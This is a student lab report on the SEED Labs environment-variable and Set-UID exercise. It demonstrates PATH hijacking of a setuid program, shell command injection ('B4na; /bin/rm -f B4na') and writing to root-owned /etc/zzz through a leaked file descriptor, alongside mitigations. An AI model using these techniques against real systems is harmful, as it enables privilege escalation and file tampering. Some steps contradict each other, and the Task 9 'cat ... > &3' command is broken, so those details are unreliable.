

# SEED Labs - Environment Variable and Set-UID Program Lab

## Introduction

This report documents the practical work we carried out for the SEED Labs "Environment Variable and Set-UID Program" exercise. The lab's goal is to make visible what most programmers only assume: environment variables are not trivial metadata — they are live inputs that can change program behaviour, and when combined with privilege mechanisms such as Set-UID they can become attack vectors.

Using the provided SEED Ubuntu environment, we exercised the basic commands and APIs that propagate and expose environment state (`fork()`, `execve()`, `system()`), explored how the dynamic loader responds to `LD_*` variables, and demonstrated common pitfalls in privileged programs (PATH-based command substitution, misuse of `system()`, and capability/file-descriptor leaking).

The experiments were performed on a SEED Ubuntu VM (Ubuntu 20.04) supplied with the lab materials. The structure of the report follows the lab tasks, with command-by-command logs, screen captures, and explanations of why each vulnerability works at the OS level.

## Setup

We started by creating a shared folder in SeedLabs, placed in the `/media` directory. Next, we executed `printenv PWD` to view the global variables in the initial directory, but when we executed the same command in the `/media/Environment_Variable_and_SetUID/Labsetup` folder, we did not get the same result.

---

## Task 1 - Manipulating Environment Variables

**Objective:** Understand how to manipulate environment variables in the shell.

### Key Observations:
- Environment variables can be dynamically modified in the shell session
- Any variables exported become accessible to processes started by the shell
- Unsetting a variable removes it immediately from the current shell environment


---

## Task 2 - Inheriting Environment Variables

**Objective:** Verify if the environment variables from the parent process are inherited by the child process after the `fork()` call.

### Procedure:

We compiled `myprintenv.c` with:
```bash
gcc myprintenv.c
./a.out > file
```

We then got the return we had when we did `printenv PWD` in the initial directory.

We commented out the child process `printenv()` and uncommented the parent process `printenv()`. We could notice that both returned literally the same thing regarding environment variables.


### Result:

The environment variables included:
```
XDG_VTNR=7
XDG_SESSION_ID=c1
SESSION=ubuntu
ANDROID_HOME=/home/seed/android/android-sdk-linux
TERM=xterm-256color
SHELL=/bin/bash
USER=seed
PATH=/home/seed/bin:/usr/local/sbin:/usr/local/bin:...
PWD=/media/sf_Environment_Variable_and_SetUID/labsetup
HOME=/home/seed
...
```

### Key Observations:
- The environment variables in the child process are the same as in the parent process
- This confirms that when a child process is created using `fork()`, it inherits all environment variables from the parent process
- The child process starts with a copy of the parent's environment


---

## Task 3 - Environment Variables and execve()

**Objective:** Analyze what happens to environment variables when a new program is executed with `execve()`.


### Step 1

We executed the `myenv.c` file:
```bash
gcc myenv.c
./a.out > file
```

We got an empty file.

### Step 2

We changed the line:
```c
execve("/usr/bin/env", argv, NULL);
```
to:
```c
execve("/usr/bin/env", argv, environ);
```

And executed the same commands.

### Step 3

We noticed that we got literally the same global variables from the parent process (there was no child process creation, parent is used only as a reference).

### Conclusion:

`execve()` replaces the current program without creating a new process and only transmits environment variables if they are explicitly passed as an argument. Otherwise, the new program is executed with an empty environment.

### Key Observations:
- When `execve()` is called with the environment parameter set to `NULL`, the new program does not inherit any environment variables
- When `execve()` is called with `environ`, the new program inherits all environment variables
- Environment variable inheritance with `execve()` is explicitly controlled by the third argument; it's not automatic


---

## Task 4 - Environment Variables and system()

**Objective:** Analyze what happens to environment variables when a new process is executed through the `system()` function.

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    system("/usr/bin/env");
    return 0;
}
```

When executing:
```bash
gcc myenv.c -o myenvsys
./myenvsys > file
```

### Conclusion:

The `system()` function does not swap the program that is running; instead, it creates a child process to run a new terminal (`/bin/sh`). Since `system()` internally uses `execl()`, which in turn calls `execve()` with the same set of variables from the parent process, the child process automatically inherits all environment variables.

### Key Observations:
- `system()` executes a shell (`/bin/sh`) first, which inherits all environment variables from the calling process
- The executed command (`/usr/bin/env`) has access to the same environment variables as the program that called `system()`
- `system()` implicitly propagates environment variables, making it different from `execve()` in terms of inheritance


---

## Task 5 - Environment Variable and Set-UID Programs

**Objective:** Analyze how environment variables are treated when a Set-UID program is executed.

### Step 1

```c
#include <stdio.h>
#include <stdlib.h>
extern char **environ;

int main()
{
    int i = 0;
    while (environ[i] != NULL) {
        printf("%s\n", environ[i]);
        i++;
    }
}
```

### Step 2

Compilation and configuration:
```bash
gcc foo.c -o foo
sudo chown root foo
sudo chmod 4755 foo
```

### Step 3

Variable definition:
```bash
export PATH=/home/seed/bin:$PATH
export LD_LIBRARY_PATH=/home/seed/lib
export MY_VAR="banaNa"
./foo > file
```

### Result:

We could see that some user-defined variables appear with updated values in the file. In the test, we saw variables like `MY_VAR`, `LD_LIBRARY_PATH`, and `PATH` appear in the Set-UID program.

### Important Observation:

We discovered that this behavior is not always standard. In many distributions/configurations, potentially dangerous variables are filtered for security reasons. The result may vary depending on the libc version, kernel flags (securebits), sudo policies, or how the binary was invoked.

### Key Observations:
- Only some variables like `SHELL`, `HOME`, `PWD`, `LOGNAME`, `LANG`, and `PATH` appear in the program output
- Sensitive variables like `LD_LIBRARY_PATH` may be ignored by default
- Variables that could modify program behavior are usually sanitized
- The operating system prevents Set-UID programs from blindly inheriting all environment variables to avoid privilege escalation risks



---

## Task 6 - The PATH Environment Variable and Set-UID Programs

**Objective:** Test if a Set-UID program that uses `system("ls")` can be forced to execute a malicious file controlled by the user.

### Victim Code (`seis.c`):
```c
int main()
{
    system("ls");
    return 0;
}
```

### Malicious Code (`bad_code.c`):
```c
int main() {
    printf("Muh ha ha ha ha!!\n");
    if (geteuid() == 0) printf("I have root privilege!\n");
    return 0;
}
```

### Procedure:

1. We compiled `seis.c` and made it Set-UID root
2. We compiled the malicious code as `ls`:
```bash
gcc -o ls bad_code.c
export PATH=/home/seed:$PATH
./seis
```

### Result with dash:

```
[10/13/25]seed@VM:~/Documents$ ./seis
Muh ha ha ha ha!!
```

The malicious binary was executed, but the message "I have root privilege!" **did not** appear. This indicates that the malicious process did not run with EUID = 0.


### Probable reasons:
- The shell called by `system()` (dash) may have revoked the EUID as a security measure
- Some filesystems (e.g., vboxsf) do not respect the set-uid bit

### Result with zsh (lab-only):

After temporarily pointing `/bin/sh` to `zsh`, the `./atc6` command produced `whoami: root` — the malicious code `~/ls` executed with root privileges (successful escalation).


### Key Observations:
- `sudo ls -l ./atc6` shows `-rwsr-xr-x` (setuid root); `which ls` -> `/home/seed/ls` (malicious file on PATH)
- Default `/bin/sh` (dash): shell dropped privileges, no escalation
- With zsh: malicious `~/ls` ran with root privileges (escalation succeeded)
- `system()` runs `/bin/sh -c ...`; the shell resolves commands via PATH
- If the shell preserves effective UID and PATH is attacker-controlled, a setuid program can run attacker code as root

### Recommendations:
- Avoid `system()` in privileged code
- Use `execve()` with absolute paths
- Sanitize or reset PATH and unset `LD_*`
- Avoid setuid binaries when possible
  


---

## Task 7 - The LD_PRELOAD Environment Variable and Set-UID Programs

**Objective:** Explore how `LD_PRELOAD` affects regular and Set-UID programs.


### Results:

1. **Regular program, normal user:** `LD_PRELOAD` works; `mylib.so` overrides `sleep()`; Output: "I am not sleeping!"

2. **Set-UID root program, normal user:** `LD_PRELOAD` ignored by Linux for security; Privilege dropping prevents library injection; Output: nothing unusual, original `sleep()` runs

3. **Set-UID root program, root user with LD_PRELOAD set:** `LD_PRELOAD` works again; Root can preload the library; Output: "I am not sleeping!"

4. **Set-UID user1 program, different non-root user:** `LD_PRELOAD` ignored again; Non-owner cannot inject library into Set-UID binary; Output: normal behavior
   


### Conclusion:

`LD_PRELOAD` is ignored for Set-UID programs unless run by the file owner (or root) to prevent privilege escalation.


---

## Task 8 - Invoking External Programs Using system() versus execve()

**Objective:** Understand the security problems of `system()` in Set-UID programs, especially exploitation via shell metacharacters.

### Code:
```c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[])
{
    char *v[3];
    char *command;

    if(argc < 2) {
        printf("Please type a file name.\n");
        return 1;
    }

    v[0] = "/bin/cat"; v[1] = argv[1]; v[2] = NULL;
    
    command = malloc(strlen(v[0]) + strlen(v[1]) + 2);
    sprintf(command, "%s %s", v[0], v[1]);

    // Use only one of the followings.
    system(command);
    // execve(v[0], v, NULL);

    return 0;
}
```

### Procedure:

We compiled `catall.c`:
```bash
gcc catall.c -o catall
sudo chown root catall
sudo chmod 4755 catall
```


We created a text file `B4na` with test content. We exploited the vulnerability with:
```bash
./catall "B4na; /bin/rm -f B4na"
```

### Result:

It worked! The program wrote the contents of `B4na` and then deleted the file from the directory.


### Detailed Analysis:

**Setup:** We created `/etc/zzz` (root-owned, 0644) and built `catall` as setuid-root.

**`system()` + dash:** When `catall` used `system()` and `/bin/sh` was dash, the shell revoked effective privileges — `catall` could not read the root-only file and metacharacters did not execute.

**`system()` + zsh:** After temporarily pointing `/bin/sh` to zsh, the shell did not revoke privileges, allowing `system()` to execute arbitrary commands as root.

**`execve()`:** Replacing `system()` with `execve()` avoids shell invocation; arguments are passed literally, preventing command-injection attacks.


---

## Task 9 - Capability Leaking

**Objective:** Test the *capability leaking* vulnerability — when a Set-UID program revokes the UID but still leaves privileged resources (file descriptors) accessible.

### Code:
```c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>

void main()
{
    int fd;
    char *v[2];

    /* Assume that /etc/zzz is an important system file,
     * and it is owned by root with permission 0644.
     * Before running this program, you should create
     * the file /etc/zzz first. */
    fd = open("/etc/zzz", O_RDWR | O_APPEND);        
    if (fd == -1) {
        printf("Cannot open /etc/zzz\n");
        exit(0);
    }

    // Print out the file descriptor value
    printf("fd is %d\n", fd);

    // Permanently disable the privilege by making the
    // effective uid the same as the real uid
    setuid(getuid());                                

    // Execute /bin/sh
    v[0] = "/bin/sh"; v[1] = 0;
    execve(v[0], v, 0);                             
}
```

### Procedure:

Compilation and configuration:
```bash
gcc cap_leak.c -o cap_leak
sudo chown root cap_leak
sudo chmod 4755 cap_leak
```

Test file creation:
```bash
sudo touch /etc/zzz
```

Execution:
```bash
./cap_leak
```

### Result:

```
[10/13/25]seed@VM:~/Documents$ ./cap_leak
fd is 3
$
```

**Note:** The `3` is because the system already uses 0 (stdin), 1 (stdout), 2 (stderr). The first `open()` returns the next free FD, normally 3.

### Exploitation:

We tried:
```bash
rm -f /etc/zzz
```

Result:
```
$ rm -f /etc/zzz
rm: cannot remove '/etc/zzz': Permission denied
```

But using the fd directly:
```bash
cat 'malicious line\n' > &3
```

Verification:
```bash
$ sudo cat /etc/zzz
malicious line
malicious line
$
```

### Conclusion:

Despite not having root authorization in various commands, we managed to add information to the `/etc/zzz` file (which belongs to root with specific permission) using the fd address. The new program inherited this descriptor from the initial program.

The test demonstrated the *capability leaking* vulnerability: although the process revoked root with `setuid(getuid())`, it left behind the open file descriptor (FD) for `/etc/zzz`. The shell that the program executed simply inherited this "leaked" FD, allowing writing to the protected file.

### Evidence:
- **Setup:** compiled `cap_leak`, set owner to root and mode 4755, created `/etc/zzz` owned by root (0644)
- **Exploit:** running `./cap_leak` printed `fd is 3`; inside the spawned shell `printf 'attacker wrote line\n' >&3` wrote through the inherited privileged descriptor
- **Evidence:** file size and metadata changed; `cat /etc/zzz` contains the appended line, proving capability leaking

### Mitigation:

`setuid()` alone is not enough; it is necessary to clean all privileged resources (close the FDs with `close()`) to ensure security.


---

## Conclusion

This laboratory demonstrated in a practical way how environment variables and Set-UID programs can create serious security vulnerabilities when not properly managed. The main lessons include:

1. **Environment Inheritance:** Child processes inherit environment variables, but behavior varies between `fork()`, `execve()`, and `system()`
2. **Set-UID and PATH:** Set-UID programs that use `system()` can be exploited through PATH manipulation
3. **LD_PRELOAD:** It is ignored for Set-UID programs (except by owner/root) to prevent privilege escalation
4. **system() vs execve():** `system()` invokes a shell and is vulnerable to command injection; `execve()` is safer
5. **Capability Leaking:** Revoking privileges with `setuid()` is not enough if privileged file descriptors are not closed

### Security Recommendations:
- Avoid `system()` in privileged code
- Use `execve()` with absolute paths
- Sanitize or reset PATH and unset `LD_*`
- Close all privileged file descriptors before revoking privileges
- Avoid setuid binaries when possible

# Authorship Details

### Divaldo Dias (up202309923@up.pt)
### Francisco Leiras (up202307823@up.pt)
### Bárbara Gomes (up202305089@up.pt)

All work referenced the SEED Lab materials by Wenliang Du and used the supplied code examples.
